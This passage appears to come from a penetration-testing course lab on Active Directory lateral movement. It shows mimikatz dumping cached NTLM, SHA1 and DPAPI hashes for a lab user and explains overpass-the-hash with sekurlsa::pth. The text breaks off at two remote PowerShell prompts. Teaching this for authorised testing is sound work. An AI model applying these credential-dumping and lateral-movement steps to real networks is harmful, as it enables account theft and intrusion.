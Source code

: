 From here, we enter *jen* as the username along with the associated password, which will launch Notepad in the context of that user. After successful authentication, *jen*'s credentials will be cached on this machine.

We can validate this by opening an Administrative shell and using **mimikatz** with the **sekurlsa::logonpasswords** command. The command will dump the cached password hashes.

```
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```

> Listing 17 - Dumping password hash for 'jen'

This output shows *jen*'s cached credentials under *jen*'s own session. It includes the NTLM hash, which we will leverage to overpass the hash.

The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication. A simple way to do this is with the **sekurlsa::pth** command from Mimikatz.

The command requires a few arguments and creates a new PowerShell process in the context of *jen*. This new PowerShell prompt will allow us to obtain Kerberos tickets without performing NTLM authentication over the network, making this attack different than a traditional pass-the-hash.

As the first argument, we specify **/user:** and **/domain:**, setting them to **jen** and **corp.com** respectively. We'll specify the NTLM hash with **/ntlm:** and finally, use **/run:** to specify the process to create (in this case, PowerShell).


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname